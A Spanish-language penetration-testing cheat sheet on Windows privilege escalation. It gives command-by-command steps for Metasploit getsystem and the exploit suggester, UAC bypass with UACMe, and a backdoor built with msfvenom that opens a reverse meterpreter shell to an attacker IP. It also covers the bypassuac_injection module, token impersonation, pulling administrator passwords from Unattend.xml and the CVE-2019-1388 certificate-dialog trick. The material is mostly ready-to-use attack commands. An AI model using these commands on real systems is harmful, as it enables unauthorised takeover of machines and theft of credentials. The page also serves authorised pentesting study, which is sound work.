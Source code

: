 ```yaml
---
title: "Escalada Privilegios"
layout: "single"
category: "Windows Pentesting"
slug: "windows-pentesting/escalada-privilegios"
date: "2025-09-30"
---
```


### Getsystem Metasploit
Una vez establecida una sesión de meterpreter, lanzando el comando *getsystem* tratará de elevar privilegios con varias técnicas. Si esto no funciona, ya podemos tratar de hacer un UACBypass y luego volver a meter el *getsystem* o combinarlo también con cualquier otra técnica.

### Exploit Suggester Metasploit
En windows, si establecemos una sesión de meterpreter con metasploit, podemos lanzar un módulo para intentar realizar la escalada de privilegios. Una vez estableceida la sesión con la víctima:

```bash
# Mandamos el proceso de la sesión al segundo plano
background
# buscamos el exploit y lo cargamos
search local_exploit_suggester
# localizamos la sesión que pusimos en segundo plano
sessions -l
# cargamos la sesión
set SESSION <numero>
# lanzar la búsqueda de exploits para la escalada de privilegios
run
# tendremos una lista de exploits, de los vulnerables, copiamos el exploit, ejemplo: /windows/local/tokenmagic
# cargar el exploit, rellenar los campos y lanzar
use /windows/local/tokenmagic
```

### "Manual" exploit suggester
[Exploit Suggester .py Github](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)

1- Una vez obtenida una shell, debemos lanzar el comando **systeminfo** y guardar el resultado en un fichero de texto.

2 - Actualizamos la base de datos del suggester, y nos genera un xls con la bbdd de las últimas vulnerabilidades.
```bash
#Dependencias:
install python-xlrd
pip install xlrd --update

# Actuali,zar la bbdd
./wubdiws-exploit-suggester.py --update
```

3º Lanzar el suggester (en la maquina atacante)
```bash
./windows-exploit-suggester.py --database la_bbdd_que_genera_el_update_anterior.xls --systeminfo el_resultado_del_coando_systeminfo.txt
```

Esto nos sugerirá diferentes exploits en base a la infromación dada, que podremos utilizar para la escalada de privilegios.

### UAC bypass con UACMe
[UACMe Github](https://github.com/hfiref0x/UACME)
Teniendo acceso a la máquina víctima, la idea es crear y subir un backdoor junto con UACMe para ejecutar ese backdoor (que será una reverse meterpreter), pero con privilegios saltándonos el UAC.

1º - Teniendo una sesión de meterpreter ya establecida, iniciar una segunda sesión que estará a la escucha para cuando lancemos el **Akagi64.exe**
```bash
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST=<ip_atacante>
set LPORT=<puerto_para_el_backdoor>
run

# Aqui estaremos a la espera hasta que en la primera sesión lancemos el "payload" y será cuando en la sesión 2 obtengamos una shell con privilegios.
```

2º - Crear el backdoor con msfvenom y subirlo junto el UACMe
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<ip_atacante> LPORT=<puerto_para_el_backdoor> -f exe > backdoor.exe

# En la sesión 1 establecida anteriormente, subimos los ficheros
cd C:\\
mkdir temp
cd temp
upload backdoor.exe
upload Akagi64.exe
.\Akagi64.exe <método> C:\temp\backdoor.exe
#EJEMPLO
.\Akagi64.exe 23 C:\temp\backdoor.exe
##### CADA MÉTODO ESTÁ ORIENTADO A UN S.O Y V ERSION DIFERENTE, PARA VER LOS MÉTODOS Y LA VERSION DE WINDOWS ASOCIADA MIRAR LA DOCUMENTACIÓN DE GITHUB
```

3º - Escalar a NT AUTHORITY\SYSTEM. Para ello localizamos un proceso lanzado por NT AUTHORITY\SYSTEM y anotamos el PID
```bash
#Estando en una sesión de meterpreter (NO SHELL)
ps
migrate <PID>
sysinfo
getuid
```

### UACBypass Injection
Con una sesión de metrpreter establecida.
```bash
search bypassuac
elegir bypassuac_injection
set payload windows/x64/meterpreter/reverse_tcp
set SESSION <num sesion establecida anteriormente> <para salir de una sesión ctrl Z y "background"
set LPORT <cambiar el de por defecto que conicidirá con la otra sesión>
set TARGET <tabular> y escribir la que nos interese (x64 o x86)
run
getsystem (para escalar privilegios abusando del UACBypass)
getuid (para comprobar que ha funcionado)
```
### Suplantación de token de acceso (Impersonate token)
Al ya tener acceso a la máquina con algún usuario, podemos tratar de suplantar el token de inicio de sesión de otro usuario que tenga mayores privilegios. Para ello es **requisito indispensable** tener al menos estos privilegios en el usuario con el que tenemos acceso a la máquina:

**getprivs**
* SeAssignPrimaryToken
* SeCreateToken
* SeImpersonatePrivilege

#### Con metasploit
```bash
#teniendo una sesión de meterpreter, cargamos el modo incógnito
load incognito

# Listamos los tokens disponibles
 list_tokens -u
# Veremos los token disponibles, algo así:
Delegation Tokens Available
========================
MACHINE\Administrator
MACHINE\guest

# Ahora para pivotar al usuario Administrator, metemos el comando en meterpreter
impersonate_token "MACHINE\Administrator"

#Migramos a otro proceso, por ejemplo "explorer"
pgrep explorer
migrate <PID>

# para escalar a NT AUTHORITY SISYTEM repetimos la operacion anterior, listamos los token y lo suplantamos
```

### Credential dumping en ficheros de configuracion
Cuando se realiza una instalación masiva desatendida, las claves se suelen almacenar (a veces en base64), en los siguientes ficheros:
 ```bash
  C:\\Windows\Panther\Unattend.xml
  C:\\Windows\Panther\Autounattend.xml

### AL FINAL DEL FICHERO ENCONTRAMOS
<AutoLogon>
	<Password>
		<value>CONTRASEÑA</value>
```

Esto puede ser interesante porque la contraseña que se suele almacenar es la del administrador, de cara a la escalada de privilegios.

### CVE-2019-1388 (Privesc)
Vulnerabilidad que afecta a ciertas versiones de windows. 

Consiste en abrir un ejecutable y nos pedirá credenciales de administrador, no las meteremos, le daremos a más detalles y luego a "ver mas información acerca del certificado".

Una vez en el certificado, en el apartado de "Issued By", clicamos en el "link" y se nos abrirá un navegador por detrás con permisos de Administrador. Ya podemos cerrar el certificado y salir del UAC.

Una vez cargue, o no, da igual, la web. Tratamos de guardar la página con "File > Save As". y ahí que tegamos el explorador de windows abierto (con los mismos privilegios de administrador que el navegador), abrimos un CMD. Y ya tenemos un cmd con privilegios de administrador.
